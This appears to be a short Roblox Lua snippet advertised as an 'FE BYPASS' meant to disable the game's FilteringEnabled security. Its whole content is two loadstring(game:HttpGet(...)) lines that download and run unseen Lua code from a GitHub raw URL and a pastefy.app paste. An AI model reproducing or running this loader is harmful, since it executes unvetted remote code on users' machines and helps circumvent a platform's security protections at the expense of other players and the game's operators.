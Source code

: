 --Here Script FE BYPASS DISABLES FE🤑🤑🤑

loadstring(game:HttpGet("https://raw.githubusercontent.com/hi822010/Fe-Bypass-REAL-/refs/heads/main/Horror%20Gui.lua"))()
wait(1)
loadstring(game:HttpGet("https://pastefy.app/SIkYqjdB/raw"))()
